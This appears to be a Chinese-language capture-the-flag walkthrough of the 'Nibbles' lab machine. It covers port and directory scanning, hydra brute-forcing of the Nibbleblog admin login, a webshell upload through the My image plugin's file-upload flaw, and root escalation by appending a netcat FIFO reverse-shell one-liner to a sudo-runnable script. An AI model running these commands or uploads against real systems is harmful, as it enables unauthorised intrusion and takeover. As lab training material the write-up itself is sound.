
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
◇ nmap
◇ TCP/80
▪ Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
同样的，先用nmap探测目标端口开放情况
nmap -sV -sC -oA nmap 10.10.10.75

可以看到开启了80端口，先探索一下http服务，寻找更多内容
没有什么有用的发现，只是一个很简单的hello world

根据burpsuite抓的包可以看到apache的版本内容以及一个目录/nibbleblog

根据提示目录可以看到一个展示页面，页面右下角有一个powerd by nibbleblog

很可能是一个博客框架，借助浏览器可以知道确实是一个博客系统，据查也可以得知v4.0.5版本存在很多漏洞，鉴于目前并不能知道靶机使用版本，因此尝试执行目录扫描

直接对/nibbleblog进行目录的暴力枚举
gobuster dir -u http://10.10.10.75/nibbleblog/ /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -w / -x txt,php -t 50 -k -o gobuster

/admin.php
是一个登录页面

在/content/private/user.xml中找到用户名，尝试暴力破解

使用hydra针对用户名amdin进行暴力破解，猜测用户名与nibbles相关，加入字典中执行暴力破解，最终得到用户名和密码

暴力破解触发零 保护机制，重新将靶机还原使用用户名和密码登录系统后，界面如下

在settings中可以看到博客版本信息

并且该版本有一个任意文件上传漏洞

然后根据相关信息设置配置项

然后执行即可，并获取交互式shell

user.txt

漏洞没有任何检验，不需要绕过，直接上传webshell即可。进入易受攻击的插件My image

点击Configure，进入后，上传提前准备好的webshell

然后在kali中监听，在浏览器访问http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php

鉴于之前的靶场，直接sudo -l

先把personal.zip解压，然后查看该文件内容

在文件末尾添加脚本，然后运行该文件即可
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 8888 > /tmp/f">> monitor.sh
